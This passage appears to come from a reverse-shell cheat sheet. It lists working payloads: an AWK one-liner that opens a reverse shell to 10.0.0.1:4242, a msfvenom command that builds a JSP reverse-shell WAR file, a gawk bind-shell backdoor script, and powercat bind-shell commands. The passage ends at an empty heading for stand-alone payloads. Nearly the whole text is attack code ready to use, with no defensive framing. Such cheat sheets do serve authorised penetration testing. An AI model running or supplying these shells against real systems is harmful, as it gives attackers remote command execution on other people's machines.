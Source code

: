## AWK

```
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

## WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```

## GHAWK

```
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

## Powercat

### Powercat Bind Shells

```
powercat -l -p 443 -e cmd.exe
nc 10.11.0.22 443
```

### Powercat Stand-Alone Payloads
